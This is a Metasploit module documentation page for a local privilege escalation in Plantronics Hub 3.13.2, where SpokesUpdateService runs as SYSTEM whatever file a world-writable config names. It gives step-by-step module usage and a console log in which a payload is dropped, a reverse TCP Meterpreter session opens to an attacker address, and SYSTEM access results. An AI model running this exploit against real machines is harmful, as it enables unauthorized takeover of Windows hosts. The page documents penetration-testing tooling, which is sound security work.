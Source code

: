 ## Description

  The Plantronics Hub client application for Windows makes use of an
  automatic update service `SpokesUpdateService.exe` which automatically
  executes a file specified in the `MajorUpgrade.config` configuration
  file as SYSTEM. The configuration file is writable by all users by default.


## Vulnerable Application

  This module has been tested successfully on [Plantronics Hub version 3.13.2](https://www.plantronics.com/content/dam/plantronics/software/PlantronicsHubInstaller-3.13.2.exe) on Windows 7 SP1 (x64).


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/windows/local/plantronics_hub_spokesupdateservice_privesc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *SYSTEM* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `%TEMP%`)


## Scenarios

### Windows 7 SP1 (x64)

  ```
  msf5 > use exploit/windows/local/plantronics_hub_spokesupdateservice_privesc
  msf5 exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > set session 1
  session => 1
  msf5 exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > set verbose true
  verbose => true
  msf5 exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > check
  [*] The service is running, but could not be validated.
  msf5 exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(windows/local/plantronics_hub_spokesupdateservice_privesc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Writing payload to C:\Users\test\AppData\Local\Temp\MuVtxrl9.exe ...
  [*] Writing configuration file to C:\ProgramData\Plantronics\Spokes3G\MajorUpgrade.config ...
  [*] Sending stage (180291 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:49431) at 2020-01-03 14:55:46 -0500
  [-] Failed to delete C:\Users\test\AppData\Local\Temp\MuVtxrl9.exe: stdapi_fs_delete_file: Operation failed: Access is denied.

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > 
  ```

